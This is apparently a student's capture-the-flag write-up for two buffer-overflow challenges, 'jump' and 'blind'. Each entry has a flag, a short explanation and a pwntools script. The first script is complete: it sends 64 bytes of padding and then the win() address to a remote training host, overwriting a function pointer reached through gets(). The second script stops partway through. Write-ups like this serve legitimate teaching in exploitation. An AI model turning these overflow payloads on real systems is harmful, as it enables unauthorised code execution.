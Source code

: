 ==================================================================
jump
==================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1qdW1wIiwiaXAiOiIxMDEuMTY0LjMzLjIxOSIsInNlc3Npb24iOiJhOWVlOWI2Mi1jOTNiLTQzOWItYjFkZC1kMzlhZTUxMmI2MTgifQ.1UwY32DXsbRwEyhlPEaBD2nyqA7g7OqQFiixenuufhk}
------------------------------------------------------------------
General overview
1. There was a buffer of size 64 for the input, I simply needed to fill this buffer up and then stick the win function address after this to overwrite the function pointer. 
2. The function used gets(&input), so overflowing the buffer was easy.
3. I found the address for win() from objdump
------------------------------------------------------------------
Program used
#! bin/env/ python

from pwn import *

p = remote("plsdonthaq.me", 2001)
# p = process("./jump")

p.recvuntil("work ?")

payload = b""
payload += "A" * (0x40)
payload += p32(0x08048536)

p.sendline(payload)

p.interactive()
==================================================================



==================================================================
blind
==================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1ibGluZCIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiMjA5YzZiZWItNmI4MS00NjljLTliYjMtYTgxODE5MWE2ZGM4In0.g9Qcxi_IMooHRoZffc7kr8zB0_4gZyqhCootzMcvZic}
------------------------------------------------------------------
General overview
Essentially the same as the previous, except instead of overwriting the function pointer we had to overwrite the return address, so fill the buffer up with 8 additional bytes to bypass the other registers.
------------------------------------------------------------------
Program used
#! bin/env/ python

from pwn import *

p = remote("plsdonthaq.me", 2002)
# p = process("./blind")
